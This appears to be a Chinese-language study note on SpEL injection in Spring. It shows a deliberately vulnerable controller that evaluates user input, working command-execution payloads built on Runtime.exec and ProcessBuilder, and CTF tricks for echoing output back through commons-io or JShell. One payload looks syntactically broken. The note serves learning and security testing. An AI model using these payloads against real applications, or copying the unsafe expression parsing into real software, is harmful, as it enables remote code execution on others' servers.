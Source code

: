 `T()`运算符的结果会返回一个`java.lang.Math`类对象

看到这里，就有点感觉了，根据上面所说的，他会解析里面的东西，又可以返回一个对象，调用相应的方法，那就可能会存在一定的安全问题

那可能就可以这样`T(java.lang.Runtime).getRuntime().exec("calc")`达到一个命令执行的效果了

其他通过XML文档和注解的时候平常在攻击的不会怎么用到

# Spel实践

```
@ResponseBody
@RequestMapping("/Spel")
public String spel(String input){
    SpelExpressionParser parser = new SpelExpressionParser();
    Expression expression = parser.parseExpression(input);
    return expression.getValue().toString();
}
```

![image-20220406155037625](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220406155037625.png)

可以看到返回了计算结果的值，那就存在一个注入

但是这里注意一下，如果是用tomcat起的服务的话，由于tomcat对GET请求中的`| {}` 等特殊字符存在限制(RFC 3986)，所以需要使用POST方法传递参数

先来试试直接执行一个exec命令

![image-20220406155254969](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220406155254969.png)

除此之外也可以直接new一个类名调用其方法,要写全类名

**使用"T(Type)"来表示 java.lang.Class 实例，"Type"必须是类全限定名，"java.lang"包除外，即该包下的类可以不指定包名；使用类类型表达式还可以进行访问类静态方法及类静态字段**

`input=new java.lang.ProcessBuilder("calc").start()`

之前在学命令执行的时候也分析到了可以直接调用ProcessBuilder的start方法来命令执行

![image-20220406155455892](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220406155455892.png)



# 关于Spel注入回显

在CTF中，有时候会有不出网的问题，这个时候执行的命令又没有回显应该怎么办呢

- 使用commons-io这个组件实现回显，这种方式会受限于目标服务器是否存在这个组件，springboot默认环境下都没有用到这个组件。。

```scss
T(org.apache.commons.io.IOUtils).toString(payload).getInputStream())
```

- 使用jdk>=9中的JShell，这种方式会受限于jdk的版本问题

```scss
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```
